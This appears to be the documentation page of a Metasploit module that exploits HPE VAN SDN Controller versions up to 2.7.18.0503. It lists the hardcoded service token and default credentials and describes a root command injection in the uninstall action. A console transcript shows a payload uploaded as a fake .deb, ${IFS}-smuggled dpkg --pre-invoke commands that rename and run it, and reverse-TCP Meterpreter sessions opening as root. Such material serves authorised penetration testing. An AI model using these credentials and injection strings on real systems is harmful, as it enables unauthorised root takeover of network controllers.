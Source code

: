 ## Introduction

This module exploits a hardcoded service token or default credentials in
HPE VAN SDN Controller <= 2.7.18.0503 to execute a payload as root.

A root command injection was discovered in the uninstall action's name
parameter, obviating the need to use sudo for privilege escalation.

If the service token option `TOKEN` is blank, `USERNAME` and `PASSWORD`
will be used for authentication. An additional login request will be
sent.

## Setup

Follow <http://h22208.www2.hpe.com/eginfolib/networking/docs/sdn/sdnc2_6/5998-8473install/content/s_download_sw.html>.

Tested on 2.7.18.0503.

## Options

**RPORT**

Set this to the port for the REST API, usually 8081.

**WEBUI_PORT**

Set this to the port for the web UI, usually 8443.

**TOKEN**

Set this to the service token. Defaults to `AuroraSdnToken37`.

**USERNAME**

Set this to the service username. Defaults to `sdn`.

**PASSWORD**

Set this to the service password. Defaults to `skyline`.

## Usage

```
msf > use exploit/linux/http/hp_van_sdn_cmd_inject
msf exploit(linux/http/hp_van_sdn_cmd_inject) > set rhosts 192.168.56.102
rhosts => 192.168.56.102
msf exploit(linux/http/hp_van_sdn_cmd_inject) > set target Linux Dropper
target => Linux Dropper
msf exploit(linux/http/hp_van_sdn_cmd_inject) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf exploit(linux/http/hp_van_sdn_cmd_inject) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf exploit(linux/http/hp_van_sdn_cmd_inject) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Authenticating with service token AuroraSdnToken37
[*] Uploading payload as fake .deb
[+] Uploaded /var/lib/sdn/uploads/PZNmbCCF6BYIL3Zv1.deb
[*] Renaming payload and executing it
[*] Injecting dpkg -r --pre-invoke=mv${IFS}/var/lib/sdn/uploads/PZNmbCCF6BYIL3Zv1.deb${IFS}/var/lib/sdn/uploads/PZNmbCCF6BYIL3Zv1${IFS}&&${IFS}chmod${IFS}+x${IFS}/var/lib/sdn/uploads/PZNmbCCF6BYIL3Zv1
[*] Injecting dpkg -r --pre-invoke=/var/lib/sdn/uploads/PZNmbCCF6BYIL3Zv1
[*] Sending stage (812100 bytes) to 192.168.56.102
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.102:34468) at 2018-07-03 18:23:08 -0500
[+] Deleted /var/lib/sdn/uploads/PZNmbCCF6BYIL3Zv1

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 192.168.56.102
OS           : Debian 8 (Linux 4.4.0-2-amd64-hlinux)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
Background session 1? [y/N]
msf exploit(linux/http/hp_van_sdn_cmd_inject) > set token ""
token =>
msf exploit(linux/http/hp_van_sdn_cmd_inject) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Authenticating with creds sdn:skyline
[+] Retrieved auth token 26d7b53a73a9455eae63c346321bfe31
[*] Uploading payload as fake .deb
[+] Uploaded /var/lib/sdn/uploads/kZzvx9DHtqQ39RPKuc0rVKzafsm584bye0l.deb
[*] Renaming payload and executing it
[*] Injecting dpkg -r --pre-invoke=mv${IFS}/var/lib/sdn/uploads/kZzvx9DHtqQ39RPKuc0rVKzafsm584bye0l.deb${IFS}/var/lib/sdn/uploads/kZzvx9DHtqQ39RPKuc0rVKzafsm584bye0l${IFS}&&${IFS}chmod${IFS}+x${IFS}/var/lib/sdn/uploads/kZzvx9DHtqQ39RPKuc0rVKzafsm584bye0l
[*] Injecting dpkg -r --pre-invoke=/var/lib/sdn/uploads/kZzvx9DHtqQ39RPKuc0rVKzafsm584bye0l
[*] Sending stage (812100 bytes) to 192.168.56.102
[*] Meterpreter session 2 opened (192.168.56.1:4444 -> 192.168.56.102:34474) at 2018-07-03 18:24:47 -0500
[+] Deleted /var/lib/sdn/uploads/kZzvx9DHtqQ39RPKuc0rVKzafsm584bye0l

meterpreter >
```
